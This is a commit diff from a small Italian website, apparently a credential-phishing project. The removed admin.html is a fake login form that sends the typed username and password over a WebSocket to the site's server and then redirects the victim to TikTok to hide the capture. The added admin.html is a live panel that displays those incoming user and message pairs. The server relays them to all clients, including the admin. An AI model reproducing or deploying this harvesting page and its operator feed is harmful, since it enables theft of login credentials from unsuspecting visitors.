

Before and after one commit to mattiasalvatelli11-cpu/facciata-realtime, a website: page public/admin.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

```diff
--- a/public/admin.html
+++ b/public/admin.html
@@ -2,74 +2,45 @@
 <html lang="it">
 <head>
   <meta charset="utf-8">
-  <title>Login</title>
-  <link rel="stylesheet" href="style.css">
+  <title>Admin Panel - Live</title>
   <style>
-    body {
-      font-family: Arial;
-      background: #f2f2f2;
-      display: flex;
-      flex-direction: column;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-    }
-    #box {
-      background: white;
-      padding: 25px;
-      border-radius: 12px;
-      width: 300px;
-      box-shadow: 0 0 12px rgba(0,0,0,0.15);
-      text-align: center;
-    }
-    input {
-      width: 100%;
-      padding: 10px;
-      margin: 8px 0;
-      border-radius: 6px;
-      border: 1px solid #ccc;
-    }
-    button {
-      width: 100%;
-      padding: 10px;
-      background: #007bff;
-      border: none;
-      color: white;
-      border-radius: 6px;
-      cursor: pointer;
-      font-size: 16px;
-    }
+    body { font-family: sans-serif; background: #f0f2f5; padding: 20px; }
+    #feed { max-width: 600px; margin: auto; display: flex; flex-direction: column; }
+    .msg { background: white; padding: 15px; border-radius: 8px; margin-bottom: 10px; border-left: 5px solid #007bff; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
+    .meta { font-size: 0.85em; color: #666; margin-bottom: 5px; }
+    .content { font-weight: bold; color: #333; word-break: break-all; }
   </style>
 </head>
 <body>
+  <h2 style="text-align:center;">Pannello Admin - Messaggi in Arrivo</h2>
+  <div id="feed"></div>
 
-<div id="box">
-  <h2>Login</h2>
+  <script>
+    const ws = new WebSocket((location.protocol === "https:" ? "wss://" : "ws://") + location.host);
 
-  <input id="user" placeholder="Username">
-  <input id="pass" placeholder="Password" type="password">
+    ws.onmessage = (event) => {
+      try {
+        const data = JSON.parse(event.data);
+        const feed = document.getElementById("feed");
 
-  <button id="enter">ENTER</button>
-</div>
+        const div = document.createElement("div");
+        div.className = "msg";
 
-<script>
-  const ws = new WebSocket((location.protocol === "https:" ? "wss://" : "ws://") + location.host);
+        const meta = document.createElement("div");
+        meta.className = "meta";
+        meta.textContent = `${data.user} • ${new Date(data.ts).toLocaleTimeString()}`;
 
-  document.getElementById("enter").onclick = () => {
-    const u = document.getElementById("user").value;
-    const p = document.getElementById("pass").value;
+        const content = document.createElement("div");
+        content.className = "content";
+        content.textContent = data.message;
 
-    ws.send(JSON.stringify({
-      user: u,
-      message: p
-    }));
-
-    // Redirect a TikTok dopo l'invio
-    setTimeout(() => {
-      window.location.href = "https://www.tiktok.com";
-    }, 300);
-  };
-</script>
-
+        div.appendChild(meta);
+        div.appendChild(content);
+        feed.prepend(div);
+      } catch (e) {
+        console.error("Errore ricezione:", e);
+      }
+    };
+  </script>
 </body>
 </html>
--- a/server.js
+++ b/server.js
@@ -27,7 +27,6 @@ wss.on('connection', (ws) => {
 
       const msgString = JSON.stringify(payload);
 
-      // Invia a TUTTI i client (incluso Admin)
       wss.clients.forEach(client => {
         if (client.readyState === WebSocket.OPEN) {
           client.send(msgString);
```
Also changed, not shown: public/index.html (+0 -1 lines).
